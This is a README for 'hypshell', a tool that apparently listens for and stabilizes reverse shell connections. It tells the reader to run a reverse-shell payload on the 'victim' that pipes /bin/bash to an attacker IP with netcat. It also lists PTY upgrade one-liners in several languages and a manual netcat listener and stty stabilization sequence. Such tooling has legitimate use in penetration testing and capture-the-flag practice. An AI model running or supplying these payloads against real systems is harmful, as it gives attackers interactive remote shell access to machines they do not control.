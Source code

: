 # hypshell
A simple reverse shell handler and stabilizer
# Usage
`usage: ./hypshell.py [options] port`

You can run the script on the attacking machine to listen for incoming connections.

Run this payload exmaple on the victim to start a reverse shell:
`nc -c /bin/bash <port> <attacker_ip>`

**NOTE: To exit the program you have to enter "exit" in the shell session even if you can't read the input**

## Options
```
usage: ./hypshell.py [options] port

positional arguments:
  port                  port number

options:
  -h, --help            show this help message and exit
  -m method, --method method
                        stabilize the connection using the specified method (default: script)
  -v, --verbose         verbose mode
  -i interface, --interface interface
                        specify the network interface to use
  -n, --normal          use normal mode instead of alternate screen
  -c, --stabilize       do not stabilize the connection
  -e, --echo            echo input
  -s shell, --shell shell
                        specify the full path of the shell to use (default: /bin/bash)
  -t, --sigint          handle SIGINT signal
  -r, --sigterm         handle SIGTERM signal
  -q, --sigquit         handle SIGQUIT signal
  -x address, --connect address
                        connect to specified address instead of bind
```
### Examples:
Start a reverse shell listener on port 4242 and start an alternative screen:

`hypshell.py 4242`

Handle `^\` to exit the program:

`hypshell.py 4242 -q`

Use connect mode and verbose:

`hypshell.py 4242 -vx 127.0.0.1`

Set shell to `/bin/sh` and use python3 PTY stabilization method:

`hypshell.py 4242 -s /bin/sh -m python3`

# Built-in Methods
Feel free to append your own methods to the code.
```shell
script: /usr/bin/script -qc {shell} /dev/null
socat: /usr/bin/socat exec:'{shell} -li',pty,stderr,setsid,sigint,sane tcp-connect
python3: python3 -c 'import pty; pty.spawn("{shell}")'
perl: perl -e 'exec "{shell}";'
ruby: ruby -e 'exec "{shell}";'
lua: lua -e 'os.execute("{shell}")'
echo: echo os.system('{shell}')
```
# Why?
This tool is used to replace a basic reverse shell listener such as netcat or socat,
instead of running:
```shell
nc -lnvp 4242
/usr/bin/script -qc /bin/bash /dev/null
export TERM=xterm
^Z
stty raw -echo
fg
```
You can just run 1 simple command that will do everything for you:
```shell
hypshell.py 4242
```
# License
GPLv3
# TODO
- add more stabilization methods
- rewrite the tool in C and upload binaries
- more
